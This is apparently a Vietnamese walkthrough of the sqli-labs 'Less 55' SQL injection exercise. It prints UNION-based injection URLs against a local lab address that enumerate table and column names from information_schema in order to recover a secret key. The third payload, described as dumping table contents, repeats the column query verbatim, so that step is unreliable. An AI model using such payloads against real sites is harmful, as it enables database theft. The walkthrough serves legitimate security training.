









# Less 55



Như ta thấy ở đây cho phép ta truyền vào param ID. Ở đây mục đích lấy được `secret key` để submit. Như ở đây chỉ cho phép thực hiện 14 request. Nếu qúa 14 request thì các thông tin như tên bảng và tên cột sẽ được reset. Như vậy để lấy được `secret key` thì số request phải nhỏ hơn 14.

Thử truyền vào một số giá trị



Thử truyền vào một số giá trị có thể gây ra lỗi







Tìm cách injection





Show được DB đang làm việc với



Show tên của các table trong DB

```
http://192.168.84.233/sqli-labs/Less-55/index.php?id=1) union select 1,1,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1--+
```


Show các cột trong bảng vừa show được

```
http://192.168.84.233/sqli-labs/Less-55/index.php?id=1) union select 1,1,group_concat(column_name) from information_schema.columns where table_schema='challenges' limit 1,1--+
```

Show thông tin trong bảng vủa show được

```
http://192.168.84.233/sqli-labs/Less-55/index.php?id=1) union select 1,1,group_concat(column_name) from information_schema.columns where table_schema='challenges' limit 1,1--+
```



Tôi đem thông tin tin show được để submit thì thành công

